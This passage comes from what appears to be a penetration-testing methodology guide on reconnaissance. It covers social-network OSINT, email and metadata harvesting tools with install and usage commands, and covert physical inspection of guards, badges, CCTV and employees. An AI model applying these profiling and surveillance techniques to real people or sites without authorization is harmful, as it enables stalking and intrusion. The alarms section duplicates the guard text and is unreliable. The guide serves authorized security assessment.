| Vox                         | `http://www.vox.com <http://www.vox.com/>`__                                               | Blogging                                                                                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Wakoopa                     | `http://social.wakoopa.com <http://social.wakoopa.com/>`__                                 | For computer fans that want to discover new software and games                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Wattpad                     | `http://www.wattpad.com <http://www.wattpad.com/>`__                                       | For readers and authors to interact & e-book sharing                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Wasabi                      | `http://www.wasabi.com <http://www.wasabi.com/>`__                                         | General. UK-based.                                                                                                                                                                                                                          |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| WAYN                        | `http://www.wayn.com <http://www.wayn.com/>`__                                             | Travel and lifestyle                                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| WebBiographies              | `http://www.webbiographies.com <http://www.webbiographies.com/>`__                         | Genealogy and biography                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| WeeWorld                    | `http://www.weeworld.com <http://www.weeworld.com/>`__                                     | Teenagers - 10 to 17                                                                                                                                                                                                                        |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| WeOurFamily                 | `http://www.weourfamily.com <http://www.weourfamily.com/>`__                               | General with emphasis on privacy and security                                                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Wer-kennt-wen               | `http://www.wer-kennt-wen.de <http://www.wer-kennt-wen.de/>`__                             | General                                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| weRead                      | `http://weread.com <http://weread.com/>`__                                                 | Books                                                                                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Windows Live Spaces         | `http://spaces.live.com <http://spaces.live.com/>`__                                       | Blogging (formerly MSN Spaces)                                                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| WiserEarth                  | `http://www.wiserearth.org <http://www.wiserearth.org/>`__                                 | Online community space for the social justice and environmental movement                                                                                                                                                                    |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Wordpress                   | `http://wordpress.org <http://wordpress.org/>`__                                           |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| WorldFriends                | `http://www.worldfriends.tv <http://www.worldfriends.tv/>`__                               |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Xanga                       | `http://www.xanga.com <http://www.xanga.com/>`__                                           | Blogs and "metro" areas                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| XING                        | `http://www.xing.com <http://www.xing.com/>`__                                             | Business (primarily Europe (Germany, Austria, Switzerland) and China)                                                                                                                                                                       |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Xt3                         | `http://www.xt3.com <http://www.xt3.com/>`__                                               | Catholic social networking, created after World Youth Day 2008                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Yammer                      | `http://www.yammer.com <http://www.yammer.com/>`__                                         | Social networking for office colleagues                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Yelp, Inc.                  | `http://www.yelp.com <http://www.yelp.com/>`__                                             | Local Business Review and Talk                                                                                                                                                                                                              |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Yfrog                       | `http://yfrog.com <http://yfrog.com/>`__                                                   |                                                                                                                                                                                                                                             |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Youmeo                      | `http://youmeo.com <http://youmeo.com/>`__                                                 | UK Social Network (focus on data portability)                                                                                                                                                                                               |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Zoo.gr                      | `http://www.zoo.gr <http://www.zoo.gr/>`__                                                 | Greek Web Meeting point                                                                                                                                                                                                                     |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Zooppa                      | `http://zooppa.com <http://zooppa.com/>`__                                                 | Online Community for Creative Talent (host of brand sponsored advertising contests)                                                                                                                                                         |
+-----------------------------+--------------------------------------------------------------------------------------------+---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

**Tone and Frequency**

Identifying an employee's tone and frequency of postings can be a
critical indicator of a disgruntled employee as well as the corporate
acceptance of social networking. While time consuming it is possible to
establish an employee's work schedule and vacation periods.

**Location awareness**

Most social networking sites offer the ability to include geolocation
information in postings. This information can be useful in identifying
exactly where the person was physically located when a posting was made.
In addition, it is possible that geolocation information is included in
images that are uploaded to social networking sites. It is possible that
the user may be savy enough to turn this off, however, sometimes it's
just as simple as reading a post that indicates exactly where they're
located.

Cree.py
^^^^^^^

Cree.py is Beta tool that is used to automate the task of information
gathering from Twitter as well as FourSquare. In addition, Cree.py can
gather any geolocation data from flickr, twitpic.com, yfrog.com, img.ly,
plixi.com, twitrpix.com, foleext.com, shozu.com, pickhur.com, moby.to,
twitsnaps.com and twitgoo.com. Cree.py is an open source intelligence
gathering application. To install Cree.py, you will need to add a
repository to your /etc/apt/sources.list.

::

    echo "deb http://people.dsv.su.se/~kakavas/creepy/ binary/" >> /etc/apt/sources.list

Update package list

::

    apt-get update

Install creepy

::

    apt-get install creepy

`Cree.py Interface <:File:Penetration_Testing_Execution_03.png>`__

| Cree.py is primarily targeting geolocation related information about
  users from social networking platforms and image hosting services. The
  information is presented in a map inside the application where all the
  retrieved data is shown accompanied with relevant information (i.e.
  what was posted from that specific location) to provide context to the
  presentation.
|  `Cree.py Interface <:File:Penetration_Testing_Execution_04.png>`__

Internet Footprint
~~~~~~~~~~~~~~~~~~

Internet Footprinting is where we attempt to gather externally available
information about the target infrastructure that we can leveraged in
later phases.

Email addresses
^^^^^^^^^^^^^^^

Gathering email addresses while seemingly useless can provide us with
valuable information about the target environment. It can provide
information about potential naming conventions as well as potential
targets for later use. There are many tools that can be used to gather
email addresses, Maltego for example.

Maltego
'''''''

Paterva `Maltego <http://www.paterva.com/>`__ is used to automate the
task of information gathering.  Maltego is an open source intelligence
and forensics application.  Essentially, Maltego is a data mining and
information-gathering tool that maps the information gathered into a
format that is easily understood and manipulated.  It saves you time by
automating tasks such as email harvesting and mapping subdomains.  The
documentation of Maltego is relatively sparse so we are including the
procedures necessary to obtain the data required.

Once you have started Maltego, the main interface should be visible. 
The six main areas of the interface are the toolbar, the Palette,
graph(view) area, overview area, the detailed area, and the property
area.

''' `Screenshot Here <:File:Penetration_Testing_Execution_05.png>`__ '''

| Here is a suggested  workflow to get you started, consider it a
  training exercise rather than absolute since you will want to
  customize your workflow depending on your engagement.
|  To start, look to the very upper left-hand corner of Maltego and
  click the "new graph" button.  After that, drag the "domain" item out
  of the palette onto the graph.  The graph area allows you to process
  the transforms as well as view the data in either the mining view,
  dynamic view, edge weighted view as well as the entity list.  When you
  first add the domain icon to your graph, it will default to
  "paterva.com" double-click on that icon and change the name to your
  target's domain(without any subdomain such as www).  Now you are ready
  to start mining.
|  1. Right click(or double-click) on the domain icon and from "run
  transform" select the "To Website DNS[using search engine]".  This
  will hopefully result in all of the subdomains for your target showing
  up.
| 2. Select all of the subdomains and run the "To IP Address [DNS]
  transform".  This should resolve all of the subdomains to their
  respective IP Addresses.
| ''' `Screenshot Here <:File:Penetration_Testing_Execution_07.png>`__
  '''
| 3. From this point you could chose a couple different paths depending
  on the size of your target but a logical next step is to determine the
  netblocks so run the "To Netblock [Using natural boundaries]"
  transform.
|  After this point, you should be able to use your imagination as to
  where to go next.  You will be able to cultivate phone numbers, email
  addresses, geo location information and much more by using the
  transforms provided.  The Palette contains all the transforms that are
  available (or activated) for use.  As of this writing, there are
  approximately 72 transforms.  One limitation of the "Community
  Edition" of Maltego is that any given transform will only return 12
  results whereas the professional version doesn't have any limitations.
|  Resist the temptation to run "all transforms" since this will likely
  overload you with data and inhibit your ability to drill down to the
  most interesting pieces of data that are relevant to your engagement.
   

Maltego is not just limited to the pre-engagement portion of your
pentest.  You can also import csv/xls dumps of your airodump results
back into Maltego to help you visualize the networks.

TheHarvester
''''''''''''

TheHarvester is a tool, written by Christian Martorella, that can be
used to gather e-mail accounts and subdomain names from different public
sources (search engines, pgp key servers). Is a really simple tool, but
very effective.

::

    root@pentest:/pentest/enumeration/theharvester# ./theHarvester.py

    *************************************
    *TheHarvester Ver. 1.6             *
    *Coded by Christian Martorella      *
    *Edge-Security Research             *
    *cmartorella@edge-security.com      *
    *************************************


    Usage: theharvester options

           -d: domain to search or company name
           -b: data source (google,bing,pgp,linkedin)
           -s: start in result number X (default 0)
           -v: verify host name via dns resolution
           -l: limit the number of results to work with(bing goes from 50 to 50 results,
                google 100 to 100, and pgp does'nt use this option)

    Examples:./theharvester.py -d microsoft.com -l 500 -b google
             ./theharvester.py -d microsoft.com -b pgp
             ./theharvester.py -d microsoft -l 200 -b linkedin

TheHarvester will search the specified data source and return the
results. This should be added to the OSINT document for use at a later
stage.

::

    root@pentest:/pentest/enumeration/theharvester# ./theHarvester.py -d client.com -b google -l 500

    *************************************
    *TheHarvester Ver. 1.6             *
    *Coded by Christian Martorella      *
    *Edge-Security Research             *
    *cmartorella@edge-security.com      *
    *************************************

    Searching for client.com in google :

    ======================================


    Limit: 500
    Searching results: 0
    Searching results: 100
    Searching results: 200
    Searching results: 300
    Searching results: 400

    Accounts found:
    ====================
    admin@client.com
    nick@client.com
    jane@client.com
    sarah@client.com

NetGlub
'''''''

NetGlub is an open source tool that is very similar to Maltego. NetGlub
is a data mining and information-gathering tool that presents the
information gathered in a format that is easily understood. The
documentation of NetGlub is nonexistent at the moment so we are
including the procedures necessary to obtain the data required.

Installing NetGlub is not a trivial task, but one that can be
accomplished by running the following:

::

    apt-get install build-essential mysql-server libmysqlclient-dev zlib1g-dev libperl-dev libnet-ip-perl libopenssl-ruby ruby-dev ruby omt php5-cli nmap libnet-dns-perl libnet-ip-perl python-dev
    wget http://pypi.python.org/packages/source/s/simplejson/simplejson-2.1.5.tar.gz
    tar -xzvf simplejson-2.1.5.tar.gz
    cd simplejson-2.1.5
    python2.7 setup.py build
    python2.7 setup.py install
    cd ..
    wget http://sourceforge.net/projects/pyxml/files/pyxml/0.8.4/PyXML-0.8.4.tar.gz
    tar -xvzf PyXML-0.8.4.tar.gz
    cd PyXML-0.8.4
    wget http://launchpadlibrarian.net/31786748/0001-Patch-for-Python-2.6.patch
    patch -p1 < 0001-Patch-for-Python-2.6.patch
    python setup.py install
    cd /pentest/enumeration

At this point we're going to use a GUI installation of the QT-SDK. The
main thing to point out here is that the installation path needs to be
changed during the installation to reflect /opt/qtsdk. If you use a
different path, then you will need to update the paths in the script
below to reflect that difference.

Note that during the QT-SDK installation we are reminded for external
dependencies, so make sure we run "apt-get install libglib2.0-dev
libSM-dev libxrender-dev libfontconfig1-dev libxext-dev".

::

    wget http://blog.hynesim.org/ressources/install/qt-sdk-linux-x86-opensource-2010.03.bin
    chmod +x qt-sdk-linux-x86-opensource-2010.03.bin
    ./qt-sdk-linux-x86-opensource-2010.03.bin
    wget http://www.graphviz.org/pub/graphviz/stable/SOURCES/graphviz-2.26.3.tar.gz
    tar -xzvf graphviz-2.26.3.tar.gz
    cd graphviz-2.26.3
    ./configure
    make
    make install
    cd /pentest/enumeration
    wget http://redmine.lab.diateam.net/attachments/download/1/netglub-1.0.tar.gz
    tar -xzvf netglub-1.0.tar.gz
    mv netglub-1.0 netglub
    cd /pentest/enumeration/netglub/qng/
    /opt/qtsdk/qt/bin/qmake
    make

Now we need to start MySQL and create the netglub database

::

    start mysql
    mysql -u root -ptoor

    create database netglub;
    use netglub;
    create user "netglub"@"localhost";
    set password for "netglub"@"localhost" = password("netglub");
    GRANT ALL ON netglub.* TO "netglub"@"localhost";
    quit

    mysql -u root -ptoor netglub < /pentest/enumeration/netglub/master/tools/sql/netglub.sql

    cd /opt/qtsdk/qt/src/plugins/sqldrivers/mysql/
    /opt/qtsdk/qt/bin/qmake INCLUDEPATH+=/usr/include/mysql/
    make
    cp /opt/qtsdk/qt/src/plugins/sqldrivers/mysql/libqsqlmysql.so /opt/qtsdk/qt/plugins/sqldrivers/.
    cd /pentest/enumeration/netglub/master
    /opt/qtsdk/qt/bin/qmake
    make
    cd tools/
    ./install.sh
    cd /pentest/enumeration/netglub/slave
    /opt/qtsdk/qt/bin/qmake
    make
    cd tools/
    ./install.sh
    wget http://sourceforge.net/projects/xmlrpc-c/files/Xmlrpc-c%20Super%20Stable/1.16.34/xmlrpc-c-1.16.34.tgz/download
    tar -zxvf xmlrpc-c-1.16.34.tgz
    cd xmlrpc-c-1.16.34
    ./configure
    make
    make install

Once you have installed NetGlub, you'll probably be interested in
running it. This is really a four step process: Ensure that MySQL is
running:

::

    start mysql

Start the NetGlub Master:

::

    /pentest/enumeration/netglub/master/master

Start the NetGlub Slave:

::

    /pentest/enumeration/netglub/slave/slave

Start the NetGlub GUI:

::

    /pentest/enumeration/netglub/qng/bin/unix-debug/netglub

Now the main interface should be visible. If you are familiar with
Maltego, then you will feel right at home with the interface. The six
main areas of the interface are the toolbar, the Palette, graph, (or
view) area, details, and the property area.

''' `Screenshot Here <:File:Penetration_Testing_Execution_166.png>`__
'''

A complete list of all the transforms that are available (or activated)
for use. As of this writing, there are approximately 33 transforms. A
transform is script that will actually perform the action against a
given site.

''' `Screenshot Here <:File:Penetration_Testing_Execution_167.png>`__
'''

The graph area allows you to process the transforms as well as view the
data in either the mining view, dynamic view, edge weighted view as well
as the entity list. The overview area provides a mini-map of the
entities discovered based upon the transforms. The detail area is where
it is possible to drill into the specifics of the entity. It is possible
to view such things as the relationships, as well as details of how the
information was generated. The property area allows you to see the
specific properties of the transform populated with the results specific
to the entity. To begin using NetGlub we need to drag and drop a
transform from the Palette to the Graph Area. By default, this will be
populated with dummy data. To edit the entity within the selected
transform, do so by editing the entries within the property view.

We first need to determine the Internet infrastructure such as Domains.
To perform this we will drag and drop the Domain transform to the graph
area. Edit the transform to reflect the appropriate domain name for the
client. It is possible to collect nearly all the data that we will
initially require by clicking on Run All Transforms.

The data from these entities will be used to obtain additional
information. Within the graph area the results will be visible as
illustrated below.

''' `Screenshot Here <:File:Penetration_Testing_Execution_168.png>`__
'''

Selecting the entities and choosing to run additional transforms the
data collected will expand. If a particular transform has not be used
that you want to collect data from, simply drag it to the graph area and
make the appropriate changes within the property view.

There will be some information that you will need to enter to ensure
that NetGlub functions properly. For example, you will need to enter in
DNS servers which to query. In addition, you will be asked to provide
your Alchemy and Open calais API keys.

For Alchemy, you will need to go to
`http://www.alchemyapi.com/api/register.html <http://www.alchemyapi.com/api/register.html>`__
to receive your own API key. For Open calais, you will need to go to
`http://www.opencalais.com/APIkey <http://www.opencalais.com/APIkey>`__
to receive your own API key.

Usernames/Handles
^^^^^^^^^^^^^^^^^

Identifying usernames and handles that are associated with a particular
email is useful as this might provide several key pieces of information.
For instance, it could provide a significant clue for username and
passwords. In addition, it can also indicate a particular individual's
interest outside of work. A good place to location this type of
information is within discussion groups (Newsgroups, Mailing lists,
forums, chat rooms, etc.).

Social Networks
^^^^^^^^^^^^^^^

-  `Check Usernames <http://www.checkusernames.com/>`__ - Useful for
   checking the existence of a given username across 160 Social
   Networks.

Newsgroups
''''''''''

-  `Google <http://www.google.com/>`__ -
   `http://www.google.com <http://www.google.com/>`__
-  `Yahoo Groups <http://groups.yahoo.com/>`__ -
   `http://groups.yahoo.com <http://groups.yahoo.com/>`__
-  `Delphi Forums  <http://www.delphiforums.com/>`__ -
   `http://www.delphiforums.com <http://www.delphiforums.com/>`__
-  `Big Boards <http://www.big-boards.com/>`__ -
   `http://www.big-boards.com <http://www.big-boards.com/>`__

Mailing Lists
'''''''''''''

-  TILE.Net - `http://tile.net/lists <http://tile.net/lists>`__
-  Topica - `http://lists.topica.com <http://lists.topica.com/>`__
-  L-Soft CataList, the Official Catalog of LISTSERV lists -
   `http://www.lsoft.com/lists/listref.html <http://www.lsoft.com/lists/listref.html>`__
-  The Mail Archive -
   `http://www.mail-archive.com <http://www.mail-archive.com/>`__

Chat Rooms
''''''''''

-  SearchIRC - `http://searchirc.com <http://searchirc.com/>`__
-  Gogloom - `http://www.gogloom.com <http://www.gogloom.com/>`__

Forums Search
'''''''''''''

-  BoardReader - `http://boardreader.com <http://boardreader.com/>`__
-  Omgili - `http://www.omgili.com <http://www.omgili.com/>`__

Personal Domain Names
^^^^^^^^^^^^^^^^^^^^^

The ability to locate personal domains that belong to target employees
can yield additional information such as potential usernames and
passwords. In addition, it can also indicate a particular individual's
interest outside of work.

Personal Activities
^^^^^^^^^^^^^^^^^^^

It is not uncommon for individuals to create and publish audio files and
videos. While these may be seem insignificant, they can yield additional
information about a particular individual's interest outside of work.

Audio
'''''

-  iTunes -
   `http://www.apple.com/itunes <http://www.apple.com/itunes>`__
-  Podcast.com - `http://podcast.com <http://podcast.com/>`__
-  Podcast Directory -
   `http://www.podcastdirectory.com <http://www.podcastdirectory.com/>`__
-  Yahoo! Audio Search -
   `http://audio.search.yahoo.com <http://audio.search.yahoo.com/>`__

Video
'''''

-  YouTube - `http://youtube.com <http://youtube.com/>`__
-  Yahoo Video -
   `http://video.search.yahoo.com <http://video.search.yahoo.com/>`__
-  Google Video - `http://video.google.com <http://video.google.com/>`__
-  Bing Video -
   `http://www.bing.com/videos <http://www.bing.com/videos>`__

Archived Information
^^^^^^^^^^^^^^^^^^^^

| There are times when we will be unable to access web site information
  due to the fact that the content may no longer be available from the
  original source. Being able to access archived copies of this
  information allows access to past information. There are several ways
  to access this archived information. The primary means is to utilize
  the cached results under Google's cached results. As part of an NVA,
  it is not uncommon to perform Google searches using specially targeted
  search strings:
| cache:<site.com>

Note: Replace <site.com> with the name of the domain that you wish to
perform the search on.

An additional resource for archived information is the Wayback Machine
(http://www.archive.org).

''' `Screenshot Here <:File:Penetration_Testing_Execution_09.png>`__ '''

Electronic Data
^^^^^^^^^^^^^^^

Collection of electronic data in direct response to reconnaissance and
intelligence gathering should be focused on the target business or
individual.

Document leakage
''''''''''''''''

Publicly available documents should be gathered for essential data
(date, time, location specific information, language, and author). Data
collected could provide insight into the current environment,
operational procedures, employee training, and human resources.

Metadata leakage
''''''''''''''''

Identifying Metadata is possible using specialized search engine. The
goal is to identify data that is relevant to the target corporation. It
may be possible to identify locations, hardware, software and other
relevant data from Social Networking posts. Some search engines that
provide the ability to search for Metadata are as follows:

-  ixquick - `http://ixquick.com <http://ixquick.com/>`__
-  MetaCrawler - `http://metacrawler.com <http://metacrawler.com/>`__
-  Dogpile  - `http://www.dogpile.com <http://www.dogpile.com/>`__
-  Search.com - `http://www.search.com <http://www.search.com/>`__
-  Jeffery's Exif Viewer -
   `http://regex.info/exif.cgi <http://regex.info/exif.cgi>`__

In addition to search engines, several tools exist to collect files and
gather information from various documents.

FOCA (Windows)


FOCA is a tool that reads metadata from a wide range of document and
media formats. FOCA pulls the relevant usernames, paths, software
versions, printer details, and email addresses. This can all be
performed without the need to individually download files.

Foundstone SiteDigger (Windows)


| Foundstone has a tool, named SiteDigger, which allows us to search a
  domain using specially strings from both the Google Hacking Database
  (GHDB) and Foundstone Database (FSDB). This allows for slightly over
  1640 potential queries available to discover additional information.
| ''' `Screenshot Here <:File:Penetration_Testing_Execution_10.png>`__
  '''

The specific queries scanned as well as the results of the queries are
shown. To access the results of a query, simply double-click on the link
provided to open in a browser.

Metagoofil (Linux/Windows)


Metagoofil is a Linux based information gathering tool designed for
extracting metadata of public documents (.pdf, .doc, .xls, .ppt, .odp,
.ods) available on the client's websites.

Metagoofil generates an html results page with the results of the
metadata extracted, plus a list of potential usernames that could prove
useful for brute force attacks. It also extracts paths and MAC address
information from the metadata.

Metagoofil has a few options available, but most are related to what
specifically you want to target as well the number of results desired.

''' `Screenshot Here <:File:Penetration_Testing_Execution_11.png>`__ '''

The command to run ''metagoofil ''is as follows:

::

    metagoofil.py -d <nowiki><</nowiki>client domain<nowiki>></nowiki> -l 100 -f all -o <nowiki><</nowiki>client domain<nowiki>></nowiki>.html -t micro-files

Exif Reader (Windows)


Exif Reader is image file analysis software for Windows. It analyzes and
displays the shutter speed, flash condition, focal length, and other
image information included in the Exif image format which is supported
by almost all the latest digital cameras. Exif image files with an
extension of JPG can be treated in the same manner as conventional JPEG
files. This software analyzes JPEG files created by digital cameras and
can be downloaded from
`http://www.takenet.or.jp/\ ~ryuuji/minisoft/exifread/english <http://www.takenet.or.jp/~ryuuji/minisoft/exifread/english>`__.

ExifTool (Windows/ OS X)


Exif Tool is a Windows and OS X tool for reading Meta information.
ExifTool supports a wide range of file formats. ExifTool can be
downloaded from
`http://www.sno.phy.queensu.ca/\ ~phil/exiftool <http://www.sno.phy.queensu.ca/~phil/exiftool>`__.

Image Search


While not directly related to metadata, Tineye is also useful:
http://www.tineye.com/ If a profile is found that includes a picture,
but not a real name, Tineye can sometimes be used to find other profiles
on the Internet that may have more information about a person (including
personals sites).

Covert gathering
~~~~~~~~~~~~~~~~

On-location gathering
^^^^^^^^^^^^^^^^^^^^^

On-Site visits also allow assessment personnel to observe and gather
information about the physical, environmental, and operational security
of the target.

Adjacent Facilities
'''''''''''''''''''

Once the physical locations have been identified, it is useful to
identify the adjacent facilities. Adjacent facilities should be
documented and if possible, include any observed shared facilities or
services.

Physical security inspections
'''''''''''''''''''''''''''''

Covert Physical security inspections are used to ascertain the security
posture of the target. These are conducted covertly, clandestinely and
without any party knowing they are being inspected. Observation is the
key component of this activity. Physical security measures that should
be observed include physical security equipment, procedures, or devices
used to protect from possible threats. A physical security inspection
should include, but is not limited to the following:

Security guards


Observing security guards (or security officer) is often the first step
in assessing the most visible deterrence. Security guards are uniformed
and act to protect property by maintaining a high visibility presence to
deter illegal and inappropriate actions. By observing security guard
movements directly it is possible to determine procedures in use or
establish movement patterns. You will need to observe what the security
guards are protecting. It is possible to utilize binoculars to observe
any movement from a safe distance.

Some security guards are trained and licensed to carry firearms for
their own safety and for personnel they are entrusted to protect. The
use of firearms by security guards should not be a surprise, if noted.
This should be documented prior to beginning the engagement. If firearms
are observed, ensure that precaution is taken not to take any further
action unless specifically authorized and trained to do so.

Badge Usage


Badge usage refers to a physical security method that involves the use
of identification badges as a form of access control. Badging systems
may be tied to a physical access control system or simply used as a
visual validation mechanism. Observing individual badge usage is
important to document. By observing, badge usage it may be possible to
actually duplicate the specific badge being utilized. The specific items
that should be noted are if the badge is required to be visible or shown
to gain physical access to the property or facility. Badge usage should
be documented and if possible, include observed validation procedures.

Locking devices


A locking device is a mechanical or electronic mechanism often
implemented to prevent unauthorized ingress or egress. These can be as
simple as a door lock, dead-bolt, or complex as a cipher lock. Observing
the type and placement location of the locking devices on doors it is
possible to determine if the door in primarily used for ingress or
egress. You will need to observe what the locking devices are
protecting. All observations should be documented prior, and if possible
photographs taken.

Intrusion detection systems (IDS)/Alarms


Observing security guards (or security officer) is often the first step
in assessing the most visible deterrence. Security guards are uniformed
and act to protect property by maintaining a high visibility presence to
deter illegal and inappropriate actions. By observing security guard
movements directly it is possible to determine procedures in use or
establish movement patterns. You will need to observe what the security
guards are protecting. It is possible to utilize binoculars to observe
any movement from a safe distance.

Some security guards are trained and licensed to carry firearms for
their own safety and for personnel they are entrusted to protect. The
use of firearms by security guards should not be a surprise, if noted.
This should be documented prior to beginning the engagement. If firearms
are observed, ensure that precaution is taken not to take any further
action unless specifically authorized and trained to do so.

Security lighting


Security lighting is often used as a preventative and corrective measure
on a physical piece of property. Security lighting may aid in the
detection of intruders, act as deterrence to intruders, or in some cases
simply to increase the feeling of safety. Security lighting is often an
integral component to the environmental design of a facility. Security
lighting includes floodlights and low pressure sodium vapor lights. Most
Security lighting that is intended to be left on all night is of the
high-intensity discharge lamp variety. Other lights may be activated by
sensors such as passive infrared sensors (PIRs), turning on only when a
person (or other mammal) approaches. PIR activated lamps will usually be
incandescent bulbs so that they can activate instantly; energy saving is
less important since they will not be on all the time. PIR sensor
activation can increase both the deterrent effect (since the intruder
knows that he has been detected) and the detection effect (since a
person will be attracted to the sudden increase in light). Some PIR
units can be set up to sound a chime as well as turn on the light. Most
modern units have a photocell so that they only turn on when it is dark.

While adequate lighting around a physical structure is deployed to
reduce the risk of an intrusion, it is critical that the lighting be
implemented properly as poorly arranged lighting can actually obstruct
viewing the facility they're designed to protect.

Security lighting may be subject to vandalism, possibly to reduce its
effectiveness for a subsequent intrusion attempt. Thus security lights
should either be mounted very high, or else protected by wire mesh or
tough polycarbonate shields. Other lamps may be completely recessed from
view and access, with the light directed out through a light pipe, or
reflected from a polished aluminum or stainless steel mirror. For
similar reasons high security installations may provide a stand-by power
supply for their security lighting. Observe and document the type,
number, and locations of security lighting in use.

Surveillance /CCTV systems


Surveillance/CCTV systems may be used to observe activities in and
around a facility from a centralized area. Surveillance/CCTV systems may
operate continuously or only when activated as required to monitor a
particular event. More advanced Surveillance/CCTV systems utilize
motion-detection devices to activate the system. IP-based
Surveillance/CCTV cameras may be implemented for a more decentralized
operation.

Surveillance/CCTV cameras can be of a conspicuous nature, which are used
as a visible deterrence, as well as an inconspicuous nature.
Surveillance/CCTV cameras are generally small high definition color
cameras that can not only focus to resolve minute detail, but by linking
the control of the cameras to a computer, objects can be tracked
semi-automatically. Observing and documenting the Surveillance/CCTV
system is critical for identifying the areas of coverage. While it might
not be possible to determine the specific camera type being utilized or
even the area of coverage it is possible to identify areas with or
without limited coverage. It should be noted if the Surveillance/CCTV
system is physically protected. If not, then it needs to be documented
if the Surveillance/CCTV camera is vulnerable to someone deliberately
destroying it. Additionally, a physically unprotected camera may be
subject to blurring or blocking the image by spraying substances or
obstructing the lens. Lasers can be used to blind or damage
Surveillance/CCTV cameras. For wireless Surveillance/CCTV systems,
broadcasting a signal at the same frequency as the wireless equipment
could make it subject to jamming.

Access control devices


Access control devices enable access control to areas and/or resources
in a given facility. Access control refers to the practice of
restricting entrance to a property, a building, or a room to authorized
persons. Access control can be achieved by a human (a security guard, or
receptionist), through mechanical means such as locks and keys, or
through technological means such as access control systems like the
Access control vestibule.

Access control devices historically were accomplished through keys and
locks. Electronic access control use is widely being implemented to
replace mechanical keys. Access control readers are generally classified
as Basic, Semi-intelligent, and Intelligent. A basic access control
reader simply reads a card number or PIN and forward it to a control
panel. The most popular type of access control readers are RF Tiny by
RFLOGICS, ProxPoint by HID, and P300 by Farpointe Data. Semi-intelligent
readers have inputs and outputs necessary to control door hardware
(lock, door contact, exit button), but do not make any access decisions.
Common Semi-intelligent readers are InfoProx Lite IPL200 by CEM Systems
and AP-510 by Apollo. Intelligent readers have all the inputs and
outputs necessary to control door hardware while having the memory and
the processing power necessary to make access decisions independently of
each other. Common Intelligent readers are the InfoProx IPO200 by CEM
Systems, AP-500 by Apollo, PowerNet IP Reader by Isonas Security
Systems, ID08 by Solus has the built in web service to make it user
friendly, Edge ER40 reader by HID Global, LogLock and UNiLOCK by ASPiSYS
Ltd, and BioEntry Plus reader by Suprema Inc.

Some readers may have additional features such as an LCD and function
buttons for data collection purposes (i.e. clock-in/clock-out events for
attendance reports), camera/speaker/microphone for intercom, and smart
card read/write support. Observe and document the type, number, and
locations of access control devices in use.

Environmental Design


Environmental design involves the surrounding environmental of a
building, or facility. In the scope of Physical security, environmental
design includes facilities geography, landscape, architecture, and
exterior design.

Observing the facilities and surrounding areas can highlight potential
areas of concern such as potential obscured areas due to geography and
landscaping. Architecture and exterior design can impact the ability of
security guards to protect property by creating areas of low or
no-visibility. In addition, the placement of fences, storage containers,
security guard shacks, barricades and maintenance areas could also prove
useful in the ability move around a facility in a covert manner.

Employee Behavior
'''''''''''''''''

Observing employees is often the one of the easier steps to perform.
Employee actions generally provide insight into any corporate behaviors
or acceptable norms. By observing, employees it is possible to determine
procedures in use or establish ingress and egress traffic patterns. It
is possible to utilize binoculars to observe any movement from a safe
distance.

Dumpster diving
'''''''''''''''

Traditionally, most targets dispose of their trash in either garbage
cans or dumpsters. These may or may not be separated based upon the
recyclability of the material. The act of dumpster diving is the
practice of sifting through commercial or residential trash to find
